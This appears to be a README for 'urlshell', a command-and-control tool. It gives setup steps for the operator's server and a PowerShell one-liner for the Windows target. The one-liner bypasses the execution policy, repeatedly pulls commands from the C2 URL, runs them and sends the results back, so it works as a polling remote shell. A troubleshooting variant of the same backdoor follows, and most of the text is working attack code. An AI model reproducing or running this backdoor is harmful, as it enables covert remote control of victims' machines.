 # Running urlshell
## On C2
```
pip install flask

python3 urlshell.py

> whomai
```

```
python3 http-server.py

> whoami
```

## On windows
```
Set-ExecutionPolicy Unrestricted -Scope Process -Confirm:$false;$i="http://127.0.0.1:80";$l=@();while($true){$r = iwr $i/a.js;$b = iwr $i/b.js;$c = $r.Content;$b = $b.Content;if($l -contains $b){}else{$l += $b; $z=&$c;iwr $i/">"$z};Start-Sleep -Seconds 1;$z = ""} 
```

### troubleshooting with additional output
```
Set-ExecutionPolicy Unrestricted -Scope Process -Confirm:$false;$i="http://127.0.0.1:80";$l=@();while($true){$r = iwr $i/a.js;$b = iwr $i/b.js;$c = $r.Content;$b = $b.Content;if($l -contains $b){}else{$l += $b; $z=&$c;iwr $i"/>"$z};Start-Sleep -Seconds 1;$z;$z = "";$c;$b;$l} 
```

